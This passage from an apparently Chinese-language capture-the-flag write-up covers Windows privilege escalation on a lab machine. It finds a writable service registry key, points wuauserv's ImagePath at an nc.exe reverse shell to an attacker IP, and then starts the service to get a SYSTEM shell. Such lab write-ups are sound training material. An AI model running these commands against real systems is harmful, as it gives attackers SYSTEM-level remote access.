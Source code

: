 ```powershell
get-acl HKLM:\System\CurrentControlSet\services* | Format-List * | findstr /i "Hector Users Path:"
```

![image-20200922103943620]({{ site.url }}/assets/Control_167.assets/image-20200922103943620.png)

![image-20200922104006036]({{ site.url }}/assets/Control_167.assets/image-20200922104006036.png)

我们找到了一个服务`wuauserv`

```powershell
Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
```

![image-20200922104533200]({{ site.url }}/assets/Control_167.assets/image-20200922104533200.png)

修改设定

```powershell
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.25 443 -e cmd" /f
```

这里不是很稳定，试了很多次

![image-20200922104803729]({{ site.url }}/assets/Control_167.assets/image-20200922104803729.png)

kali端443端口设立监听，靶机启动我们修改好的服务

```bash
Start-Service wuauserv
```

监听端口得到system shell，root.txt在Desktop

![image-20200922110435454]({{ site.url }}/assets/Control_167.assets/image-20200922110435454.png)

```bash
cd /
cd Users/Administrator/Desktop
type root.txt


8xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx1

```

